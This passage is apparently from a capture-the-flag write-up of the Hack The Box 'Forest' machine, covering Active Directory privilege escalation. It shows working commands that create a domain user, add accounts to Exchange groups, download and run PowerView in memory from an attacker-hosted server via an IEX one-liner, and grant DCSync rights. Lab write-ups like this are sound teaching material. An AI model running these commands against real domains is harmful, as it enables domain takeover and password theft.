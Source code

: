 ## Bloodhound: The Path Not Taken

Another interesting divergence came with Bloodhound — the visualization was completely different from Ippsec's video. I noticed a potential PSRemote path that wasn't in the original walkthrough. Although I tried this route for learning purposes:

```bash
$pass = convertto-securestring 'P@ssword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('forest', $pass)
$session = New-PSSession -ComputerName FOREST.HTB.LOCAL -Credential $cred
```

This resulted in a `LogonFailure,PSSessionOpenFailed` error, leading me back to the guided mode.

## The Final Path to Root

After several attempts trying what Ippsec did, here's what finally worked:

### 1. Create Domain User and Add to Exchange Windows Permissions

```bash
# On target machine (Evil-WinRM session as svc-alfresco):
net user forest P@ss123 /add /domain
net group "Exchange Windows Permissions" forest /add
```

### 2. Add svc-alfresco to Exchange Trusted Subsystem Group

The crucial step I initially missed was adding svc-alfresco to the Exchange Trusted Subsystem group:

```bash
# Add svc-alfresco to Exchange Trusted Subsystem group
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco
```

### 3. Load PowerView and Set Up DCSync Rights

DCSync rights are particularly powerful in Active Directory environments. When you grant DCSync rights to a user, you're essentially giving them the ability to impersonate a domain controller and request password data for any user in the domain.

```bash
# Attacker Python Server
python3 -m http.server 80

# Target
# Fileless method for PowerView.ps1 (Runs file in memory)
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7/PowerView.ps1')

# Adds DCSync rights to forest user
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity forest -Rights DCSync
```
